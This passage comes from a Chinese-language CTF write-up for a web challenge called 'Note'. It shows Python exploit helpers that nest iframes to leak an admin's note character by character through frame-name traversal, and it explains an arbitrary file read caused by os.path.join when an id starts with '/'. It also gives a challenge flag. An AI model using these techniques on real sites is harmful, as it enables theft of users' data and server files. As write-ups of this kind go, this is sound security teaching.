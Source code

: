 ```python=
        f"{NONCE}_{index}_root",
        "<iframe name=\"a\" srcdoc=\"<iframe name='b' src='/'></iframe><iframe name='c' src='/login'></iframe>"
        + note_id_to_iframe(note0_id)
        + '"></iframe>',
    )

    report(root_id, USERNAME)
    return root_id
```

我做了一個函式幫我構造某一輪的 `username`：

```python=
def index_to_username(index):
    return (
        f"{index}_{NONCE}_"
        + "${top.a.b.note.children[2].textContent.charCodeAt("
        + f"{index}"
        + ")}"
    )
```

還有根據 `note_id` 來作出該 NOTE 的 `<iframe>`；注意到必須要加上 `author` args，不然 `admin` 看不到這個 note：

```python=
def note_id_to_iframe(note_id):
    return f"<iframe src='/note?id={note_id}&author={USERNAME}'></iframe>"
```

只要先註冊完帳號，剩下就是暴力登入嘗試了。

網路太差，以下就放我取得一半 flag 的畫面：

![image](https://hackmd.io/_uploads/BJDhjxhvp.png)

## Note - FLAG2

Flag：`FLAG{n0t_just_4n_xss}`

注意到這題在知道檔名的情況下是可以任意讀檔的，作法是注意到 `os.path.join` 在第二個參數傳傳入的字串開頭為 '/' 時，會直接捨棄第一個參數的字串：

```python=
@app.get("/api/notes")
@login_required
def api_get_note_content():
    note_id = request.args.get("id")
    
    # ...

    with open(os.path.join(user_dir, note_id)) as f:
        content = f.read().strip()

    # ...
    
    return {"author": note_author, "title": title, "content": content}
```
